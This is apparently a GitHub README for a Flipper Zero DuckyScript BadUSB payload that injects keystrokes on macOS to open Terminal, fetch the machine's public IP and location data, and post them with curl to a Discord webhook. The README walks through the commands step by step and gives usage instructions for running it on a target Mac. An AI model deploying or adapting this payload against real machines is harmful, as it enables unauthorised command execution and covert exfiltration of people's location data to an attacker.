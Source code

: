 # IPLogger-FlipZero by bst04

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/logo-repository-2_0.gif" width="600" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png" width="600" />

</div>

This script, created by bst04, is designed to work on macOS systems. It opens Terminal, fetches the public IP address of the device, and sends it to a Discord webhook using `curl`.

---

## Technical Explanation

1. **Initialization**:
    - `DELAY 500`: Waits for 0.5 seconds to ensure the system is ready.
    - `GUI SPACE`: Simulates pressing the "Command" + "Space" keys to open Spotlight Search.
    - `DELAY 500`: Waits for 0.5 seconds for Spotlight to open.
    - `STRING Terminal`: Types "Terminal" to search for the Terminal application.
    - `ENTER`: Opens the Terminal application.

2. **Fetch Public IP Address**:
    - `DELAY 1000`: Waits for 1 second to ensure Terminal is fully opened.
    - `STRING location=$(curl -s https://ipapi.co/json/)`: Fetches the public IP address and stores it in a variable named `location`.

3. **Send IP Address to Discord Webhook**:
    - `DELAY 1000`: Waits for 1 second to ensure the previous command is executed.
    - `STRING curl -X POST -H "Content-Type: application/x-www-form-urlencoded" --data-urlencode "content=$location" https://yourwebhook`: Sends the link to the specified Discord webhook.

---

## Usage

1. Copy the payload script to your DuckyScript-enabled device.
2. Ensure the device is connected to a macOS system.
3. Execute the payload to fetch and send the public IP address to your Discord webhook.

